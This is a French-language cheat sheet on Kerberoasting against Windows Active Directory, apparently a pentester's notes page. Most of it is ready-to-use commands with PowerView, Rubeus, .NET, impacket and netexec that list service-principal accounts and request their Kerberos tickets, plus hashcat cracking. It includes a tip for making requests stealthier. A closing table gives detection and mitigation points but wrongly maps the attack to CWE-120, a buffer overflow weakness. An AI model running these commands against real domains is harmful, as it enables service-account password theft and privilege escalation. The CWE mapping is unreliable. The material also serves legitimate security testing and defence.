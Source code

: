Le kerberoasting consiste à cibler les utilisateurs ayant un SPN. De ce fait, il est possible de récupérer un TGS à leur nom et ainsi de tenter de le cracker pour récupérer le password du compte.

![0 GIZONcxOmJC9DyH5](../../../Files/0%20GIZONcxOmJC9DyH5.jpg)

---
### Powershell

#### Lister les comptes avec un SPN

```powershell
Get-DomainUser -SPN #powerview
---
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName #powershell
```

---
### Avec Rubeus

```powershell
Rubeus.exe kerberoast /stats
```

#### Request un TGS

```powershell
Rubeus.exe kerberoast /user:utilisateur /simple
```

#### Request un TGS sans downgrade du chiffrement. Cela permet de ne demander que les SPN avec un chiffrement type RC4_HMAC, ce qui est potentiellement plus stealthy

```powershell
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:utilisateur /simple /rc4opsec
```

---
### En .net

#### Request d'un tgs

```powershell
Add-Type -AssemblyNAme System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "USSvc/serviceaccount"
```

---
### Depuis linux

#### Lister les comptes avec un SPN

```bash
netexec ldap -u "user" -p "password" --kerberoasting output.txt
---
impacket-GetUserSPNs -dc-ip $ip -u "" -p "" $domain/$user
impacket-GetUserSPNs -dc-ip $ip $domain/$user -request -outputfile output.txt
```

### Cracker le tgs

```bash
hashcat -m 13100 '$tgs' /usr/share/wordlist/rockyou.txt
```

![crack-ticket](../../../Files/crack-ticket.webp)

---

| Catégorie                    | Information                                                                                                                                                                                                                                                                        |
| ---------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **TTP**                      | T1208 (Kerberoasting)                                                                                                                                                                                                                                                              |
| **CWE**                      | CWE-120 (Buffer Copy without Checking Size of Input ('Classic Buffer Overflow'))                                                                                                                                                                                                   |
| **Description de l'attaque** | Kerberoasting exploite la fonctionnalité des tickets de service Kerberos dans les environnements Windows. Les attaquants extraient les tickets de service Kerberos et les craquent hors ligne pour obtenir des mots de passe d'utilisateurs de service faibles.                    |
| **Impacts potentiels**       | - Accès non autorisé aux ressources réseau<br>- Compromission de comptes de service<br>- Élévation de privilèges                                                                                                                                                                   |
| **Comment la détecter**      | - Surveillance des demandes anormales de tickets de service Kerberos<br>- Analyse des journaux pour les tentatives de connexion échouées fréquentes<br>- Utilisation d'outils de détection d'intrusion                                                                             |
| **Remédiations/mitigations** | - Utiliser des mots de passe forts pour les comptes de service<br>- Appliquer la politique de sécurité Least Privilege<br>- Mettre en œuvre des audits réguliers des comptes et des mots de passe<br>- Utiliser Advanced Threat Protection pour surveiller les activités suspectes |
| **Lien de référence**        | [MITRE ATT&CK - T1208: Kerberoasting](https://attack.mitre.org/techniques/T1208/)                                                                                                                                                                                                  |
